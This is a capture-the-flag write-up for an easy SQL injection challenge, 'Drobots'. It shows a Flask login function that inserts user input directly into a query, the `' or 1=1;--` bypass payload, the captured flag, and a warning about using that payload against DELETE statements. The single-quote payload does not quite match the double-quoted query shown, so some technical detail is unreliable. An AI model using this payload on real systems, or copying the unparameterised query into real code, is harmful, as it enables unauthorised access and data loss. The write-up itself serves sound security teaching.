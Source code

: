 ## Drobots :: Easy
#### Scenario

```
Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities.
Can you help pandora with this task?
```

#### Solve

![](/images/drobots-source-tree.png)

This is an SQL challenge.
It is the made to introduce the concept of SQL Injection.

Starting the challenge we arrive at this landing page:

![](/images/drobot_login.png)

Let's take a look at the source code that handle our login request.
This application is written using the Flask microservice framework.


This code is located in the `database.py` file.
```python
from colorama import Cursor
from application.util import createJWT
from flask_mysqldb import MySQL

mysql = MySQL()

def query_db(query, args=(), one=False):
    cursor = mysql.connection.cursor()
    cursor.execute(query, args)
    rv = [dict((cursor.description[idx][0], value)
        for idx, value in enumerate(row)) for row in cursor.fetchall()]
    return (rv[0] if rv else None) if one else rv


def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

The login function is vulnerable to SQL injection.
We can see on this line:
```python
user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)
```

The `username` and `password` specified by the user is directly placed in the query.
Since there is not sanitization, we can bypass the login.

```sql
USERNAME: admin
PASSWORD: ' or 1=1;--
```

This allows us to log in and obtain the flag !

```text
HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}
```

No script for this one, since it's only a single form.

##### Important note on the use of `' or 1=1;--`

This injection is normally not recommended, as it can cause damage when used blindly.

For example, if the injection is in a `DELETE` statement, then we could delete every entry by using it blindly.

```python
# Example of a query to delete a single user:
f'DELETE FROM users WHERE username="{username}"'

# After injection with ' or 1=1; --
'DELETE FROM users WHERE usernames="" or 1=1; --'

# This will cause every user to be deleted, since the OR is always true, all entries will be matched.
```

In our case though, we have the source code and we know that is it not harmful.


